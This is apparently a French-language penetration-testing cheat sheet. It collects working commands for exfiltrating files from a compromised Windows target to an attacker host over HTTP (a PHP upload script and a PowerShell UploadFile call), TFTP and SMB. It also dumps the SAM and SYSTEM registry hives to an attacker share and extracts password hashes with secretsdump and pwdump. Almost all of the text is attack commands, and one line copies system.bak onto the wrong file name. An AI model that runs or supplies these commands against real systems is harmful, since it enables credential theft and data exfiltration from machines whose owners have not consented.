 ## Powershell 
De la machine cible vers la machine attaquante en utilisant le fichier `upload.php`

```sh
sudo mkdir /var/www/uploads
sudo chown www-data:www-data upload
sudo php -S localhost:80
```

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```sh
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.128/upload.php', 'remote_file.ext')
```


## TFTP

```sh
sudo ftpd --daemon --port 69 /var/www/uploads
```

```sh
tftp -i <attack-ip> put remote_file.ext
```


## SMB
Récupérer les fichiers contenant les hachages de mot de passe, les renvoyer à notre machine attaquante, puis vider les hachages localement:

```sh
impacket-smbserver share path -smb2support -comment 'Hacker Ber1y, Get your data'
```

```c
reg.exe save HKLM\SAM sam.bak
reg.exe save HKLM\SYSTEM system.bak
```

```c
move sam.bak \\attack-ip\share\sam.bak
move system.bak \\attack-ip\share\sam.bak
```

Ou 

```c
reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak
reg.exe save HKLM\SYSTEM \\ATTACKING_IP\share\system.bak
```

Dump hashs

```sh
secretsdump.py -sam sam.bak -system system.bak LOCAL
```

```
/usr/share/creddump7/pwdump.py SYSTEM SAM
```